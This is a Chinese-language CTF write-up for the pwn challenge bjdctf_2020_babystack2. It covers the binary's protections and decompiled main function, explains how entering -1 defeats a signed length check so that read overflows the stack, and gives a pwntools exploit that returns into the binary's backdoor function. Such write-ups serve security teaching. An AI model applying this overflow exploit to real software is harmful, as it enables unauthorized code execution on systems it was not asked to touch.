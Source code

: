 ```yaml
---
title: bjdctf_2020_babystack2
date: 2022-07-14 15:44:21
permalink: /pages/009f82/
categories:
  - 网络安全
  - pwn
  - ctf赛事题
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# bjdctf_2020_babystack2

### 文件保护

```
[*] '/home/root/Desktop/pwn/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 主函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

### 思路及分析

* 已知信息

> 有后门程序backdoor（）
>
> 64位
>
> 无保护
>
> 溢出点为read
>
> nbytes控制后面read最大可输入的字节数
>
> 输入的int型数不能大于10

* 分析

> if处判断的int型是有符号型数字
>
> 而read处限制的确实无符号型
>
> 那么选择用-1绕过即可拿到一个非常大的数
>
> 从主函数可知偏移为0x10+8

### payload

```python
from pwn import *
py=0x10+8
context(os='linux',arch='amd64',log_level='debug')
io=process('./bjdctf_2020_babystack2')
# io=remote('node4.buuoj.cn',25132)
io.sendlineafter('[+]Please input the length of your name:','-1')
backdoor_addr=0x40072A 
io.sendlineafter('u name?',flat(['a'*py,backdoor_addr]))
io.interactive()
```

